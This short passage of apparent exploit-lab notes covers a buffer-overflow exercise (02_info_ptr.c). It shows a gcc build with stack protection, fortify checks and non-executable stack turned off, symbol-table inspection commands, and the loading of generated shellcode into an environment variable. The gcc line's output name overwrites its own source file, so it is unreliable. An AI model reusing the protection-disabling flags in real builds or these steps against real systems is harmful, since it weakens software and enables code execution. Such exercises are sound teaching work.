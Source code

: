 ## Compiling 02_info_ptr.c without runtime bufferoverflow detection enabled

```
gcc -O2 -D_FORTIFY_SOURCE=0 -fno-stack-protector -z execstack 02_info_ptr.c -o 02_info_ptr.c
```

## View Symbol Table
```
readelf -s 02_vuln_func_ptr
nm 02_vuln_func_ptr
objdump -S 02_vuln_func_ptr
```

## Loading SHELLCODE into environment variable
```
export SHELLCODE=$(perl gen-payload.pl)
echo $SHELLCODE
```
